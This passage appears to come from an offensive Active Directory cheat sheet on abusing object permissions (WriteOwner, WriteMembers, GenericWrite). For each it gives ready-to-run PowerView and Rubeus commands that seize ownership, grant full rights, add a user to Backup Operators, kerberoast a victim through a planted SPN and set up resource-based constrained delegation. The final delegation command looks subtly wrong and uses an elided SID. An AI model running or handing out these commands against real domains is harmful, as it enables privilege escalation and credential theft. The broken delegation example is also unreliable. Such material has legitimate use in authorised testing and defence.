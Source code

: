 #### Privilege: `WriteOwner`

  * **What it means:** The holder can change the owner of the object to themselves.
  * **How to Exploit:** Once you are the owner of an object, you implicitly have `WriteDacl` permissions. So, the attack is a two-step process: take ownership, then use your new `WriteDacl` privilege to grant yourself `GenericAll`.
  * **Example Exploit:**
    ```powershell
    # Step 1: Take ownership
    Set-DomainObjectOwner -Identity 'Target Group' -Owner 'forend'
    # Step 2: Grant yourself GenericAll (now that you're the owner)
    Add-DomainObjectAcl -TargetIdentity 'Target Group' -PrincipalIdentity 'forend' -Rights All
    ```

#### Privilege: `WriteProperty` (on the `member` attribute) / `WriteMembers`

  * **What it means:** The holder can add or remove members from a group.
  * **How to Exploit:** This is the most straightforward group-based privilege escalation. You simply add a user you control to the privileged group.
  * **Example Exploit (adding user 'forend' to the 'Backup Operators' group):**
    ```powershell
    Add-DomainGroupMember -Identity 'Backup Operators' -Members 'forend'
    ```

#### Privilege: `GenericWrite`

  * **What it means:** The holder can write to any "unprotected" property of an object. This is a very versatile permission that can be abused in several ways.
  * **How to Exploit (Method 1 - Kerberoasting):** Write to the `servicePrincipalName` property to make a user kerberoastable.
    ```powershell
    # Set an SPN on a victim user to make them kerberoastable
    Set-DomainObject -Identity 'victim_user' -Set @{serviceprincipalname='notahacker/legit.service'}
    # Now kerberoast the user with Rubeus
    .\Rubeus.exe kerberoast /user:victim_user
    ```
  * **How to Exploit (Method 2 - Resource-Based Constrained Delegation):** Write to the `msDS-AllowedToActOnBehalfOfOtherIdentity` property to configure RBCD, allowing you to impersonate users on that machine.
    ```powershell
    # Attacker controls 'ATTACKER-PC$'
    # We have GenericWrite on 'VICTIM-SERVER'
    Set-DomainObject -Identity 'VICTIM-SERVER' -Set @{'msds-allowedtoactonbehalfofotheridentity'=([System.Security.Principal.SecurityIdentifier]'S-1-5-21...-1105').Translate([System.Security.Principal.NTAccount])}
    ```
